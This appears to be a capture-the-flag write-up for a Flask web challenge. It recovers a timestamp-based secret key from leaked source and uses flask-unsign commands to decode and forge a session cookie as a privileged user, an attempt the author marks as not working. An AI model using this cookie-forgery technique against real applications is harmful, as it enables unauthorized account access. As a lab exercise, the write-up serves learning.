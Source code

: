 # Thomas DEVerson
All things considered, I'm impressed this website is still up and running 200 years later.

# Flag

# Solution

Viewing source code, there is a `/backup` page:

```
---------- command output: {head -n 10 app.py} ----------

from flask import (Flask, flash, redirect, render_template, request, send_from_directory, session, url_for)
from datetime import datetime

app = Flask(__name__)

c = datetime.now()
f = c.strftime("%Y%m%d%H%M")
app.secret_key = f'THE_REYNOLDS_PAMPHLET-{f}'

allowed_users = ['Jefferson', 'Madison', 'Burr'] # No Federalists Allowed!!!!

---------- command output: {head -n 10 requirements.txt} ----------

Flask==3.0.3
```

See `req.py` to obtain the app secret key:
```
THE_REYNOLDS_PAMPHLET-179708251645
```

Session Manipulation:
```bash
flask-unsign --decode --cookie 'eyJuYW1lIjoiZ3Vlc3QifQ.Zk-_xg.1LzY-qUyYbn726AxGD-YZuBrnts'
# {'name': 'guest'}

flask-unsign --sign --cookie "{'name': 'Jefferson'}" --secret 'THE_REYNOLDS_PAMPHLET-179708251645'
# eyJuYW1lIjoiamVmZmVyc29uIn0.Zk_ClQ.7S5B847Pp8I6JgVy7aaiytWQWHc
# not working ^^
```
